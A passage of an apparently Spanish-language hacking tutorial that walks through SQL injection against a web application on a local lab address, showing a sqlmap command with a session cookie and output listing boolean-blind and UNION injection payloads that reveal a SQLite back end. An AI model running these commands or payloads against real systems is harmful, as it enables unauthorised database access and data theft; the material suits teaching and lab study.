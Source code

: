 Usando el operador UNION de SQL, para imprimir un mensaje en el aplicativo web.  

<figure>
  <img src="https://hackingprofessional.github.io/Security/images/DAM5.png" width="40%" height="55%">
	<figcaption>
    <a href="https://hackingprofessional.github.io/Security/images/DAM5.png" title="Inyectando codigo SQL sobre un aplicativo WEB">Inyectando codigo SQL sobre un aplicativo WEB</a>.
  </figcaption>
</figure>

Luego de identificar este formulario vulnerable a inyecciones SQL, podemos usar una herramienta automatizada para facilitar la explotacion de dicha vulnerabilidad.  
**Usando SQLMAP**  
SQLmap, Es una herramienta desarrollada en python para realizar inyección de código sql automáticamente. Su objetivo es detectar y aprovechar las vulnerabilidades de inyección SQL en aplicaciones web.  

La consulta que se realizar en el formulario expuesto es por medio de una peticion de tipo POST con una cookie de sesion.   

SQLMap admite la explotación de una amplia gama de DBMS, la lista incluye los siguientes nombres:  

| DBMS                 | DBMS             | DBMS     |
|----------------------|------------------|----------|
| MySQL                | IBM DB2          | Sybase   |
| Postgresql           | SQLite           | Firebird |
| Microsoft SQL Server | Microsoft Access | Oracle   |
| Oracle               | SAP MaxDB        |          |

Identificando el gestor de base de datos usado en la aplicacion:  

```zsh  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Tests] - [Thu Jun 27, 03:18]
└─[$]> # sqlmap -u "http://172.17.0.2:9090/app/usersearch" --cookie="connect.sid=s%3Ahbsj8Q9LncwBa5WvzuJT905FGSmgF-Sm.etNjaXJx4%2BXt5pn0Xxe7voCeWf3ppz7eKO0TILE3c9M" --data="login=Gerh" --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 03:19:08 /2019-06-27/

[03:19:08] [INFO] resuming back-end DBMS 'sqlite' 
[03:19:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: login=Gerh' AND 4169=4169 AND 'XNeY'='XNeY

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login=-6864' UNION ALL SELECT CHAR(113)||CHAR(113)||CHAR(120)||CHAR(120)||CHAR(113)||CHAR(111)||CHAR(87)||CHAR(110)||CHAR(115)||CHAR(117)||CHAR(115)||CHAR(68)||CHAR(81)||CHAR(79)||CHAR(90)||CHAR(85)||CHAR(118)||CHAR(122)||CHAR(76)||CHAR(101)||CHAR(86)||CHAR(82)||CHAR(103)||CHAR(69)||CHAR(70)||CHAR(101)||CHAR(79)||CHAR(81)||CHAR(115)||CHAR(74)||CHAR(82)||CHAR(72)||CHAR(84)||CHAR(72)||CHAR(88)||CHAR(65)||CHAR(79)||CHAR(76)||CHAR(73)||CHAR(86)||CHAR(90)||CHAR(100)||CHAR(65)||CHAR(75)||CHAR(103)||CHAR(113)||CHAR(113)||CHAR(118)||CHAR(98)||CHAR(113),NULL-- PnZX
---
[03:19:08] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
```